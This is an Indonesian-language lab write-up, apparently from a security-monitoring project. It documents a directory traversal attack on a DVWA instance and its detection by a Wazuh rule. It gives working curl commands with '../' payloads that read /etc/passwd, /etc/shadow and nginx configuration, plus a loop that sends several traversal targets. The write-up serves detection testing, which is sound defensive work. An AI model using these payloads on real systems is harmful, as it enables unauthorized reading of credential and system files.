







# Directory Traversal Attack

## Deskripsi

Directory Traversal memungkinkan attacker mengakses file di luar
root direktori web menggunakan sequence `../`. Serangan ini dapat
digunakan untuk membaca file konfigurasi, kredensial, atau file
sensitif sistem lainnya.

## MITRE ATT&CK

- **Tactic:** Discovery
- **Technique:** T1083 — File and Directory Discovery

## Target

- **URL:** `http://192.168.217.130/DVWA/vulnerabilities/fi/`
- **Parameter:** `page`

## Persiapan

```bash
# Ambil session cookie dari browser
# F12 → Console → ketik: document.cookie
# Copy nilai PHPSESSID

SESS="security=low; PHPSESSID=ISI_SESSION_DISINI"
```


---

## Attack Commands

### 1. Basic Traversal — Baca /etc/passwd

Mengakses file `/etc/passwd` menggunakan sequence `../` untuk keluar dari root direktori web server.

```bash
curl -s "http://192.168.217.130/DVWA/vulnerabilities/fi/?page=../../../../../../etc/passwd" \
  -b "$SESS" -o /dev/null -w "Status: %{http_code}\n"
```



---

### 2. Baca /etc/shadow — File Password Hash

Mencoba membaca file shadow yang berisi password hash sistem.

```bash
curl -s "http://192.168.217.130/DVWA/vulnerabilities/fi/?page=../../../../../../etc/shadow" \
  -b "$SESS" -o /dev/null -w "Status: %{http_code}\n"
```



---

### 3. Baca File Konfigurasi Web Server

Mencoba mengakses konfigurasi nginx yang mungkin berisi informasi sensitif.

```bash
curl -s "http://192.168.217.130/DVWA/vulnerabilities/fi/?page=../../../../../../etc/nginx/nginx.conf" \
  -b "$SESS" -o /dev/null -w "Status: %{http_code}\n"
```



---

### 4. Verifikasi Konten File Terbaca

Melihat langsung isi file `/etc/passwd` di response HTML untuk membuktikan file berhasil dibaca.

```bash
curl -s "http://192.168.217.130/DVWA/vulnerabilities/fi/?page=../../../../../../etc/passwd" \
  -b "$SESS" | grep -o "root:.*" | head -5
```



---

### 5. Multiple Target — Trigger Wazuh Detection

Mengirim berbagai path traversal payload untuk memicu deteksi Wazuh.

```bash
TARGETS=(
  "../../../../../../etc/passwd"
  "../../../../../../etc/shadow"
  "../../../../../../etc/hosts"
  "../../../../../../etc/nginx/nginx.conf"
  "../../../../../../var/log/nginx/access.log"
)

for target in "${TARGETS[@]}"; do
  curl -s "http://192.168.217.130/DVWA/vulnerabilities/fi/?page=${target}" \
    -b "$SESS" -o /dev/null -w "Target: ${target} - Status: %{http_code}\n"
  sleep 1
done
```



---

## Hasil Serangan di Browser

### File /etc/passwd Berhasil Dibaca



> Mengakses `?page=../../../../../../etc/passwd` berhasil menampilkan
> isi file `/etc/passwd` di halaman DVWA, membuktikan directory
> traversal berhasil dieksekusi.

---

## Detection di Wazuh

### Rule 100015 — Directory Traversal Terdeteksi



> Rule **100015** berhasil mendeteksi serangan Directory Traversal
> dengan level **10 (High)**.
> Deskripsi: *DVWA: Directory Traversal terdeteksi*

---

## Detection Summary

- **Rule ID:** `100015` — **Level:** `10` (High)
- **Rule Chain:** `100008` → `100015`
- **MITRE ID:** T1083
- **Description:** DVWA: Directory Traversal terdeteksi

## Referensi

- [OWASP Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)
- [MITRE T1083](https://attack.mitre.org/techniques/T1083/)
